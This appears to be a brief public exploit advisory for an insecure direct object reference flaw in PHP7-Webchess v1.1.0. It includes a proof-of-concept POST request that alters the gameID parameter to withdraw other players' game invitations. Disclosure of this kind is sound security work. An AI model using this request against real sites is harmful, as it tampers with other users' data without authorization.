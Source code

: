 # Exploit Title: PHP7-Webchess v1.1.0 - Insecure Direct Object Reference(IDOR)
## Date: 2/1/2024
## Vendor Homepage: https://github.com/halojoy/PHP7-Webchess
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHP7-Webchess
## Version: v1.1.0
## Exploit Description:
## PHP7-Webchess v1.1.0 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to withdraw the invitation of game that is created for other players(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /mainmenu.php HTTP/1.1
...

gameID=4(CHANGE HERE)&ToDo=WithdrawRequest
```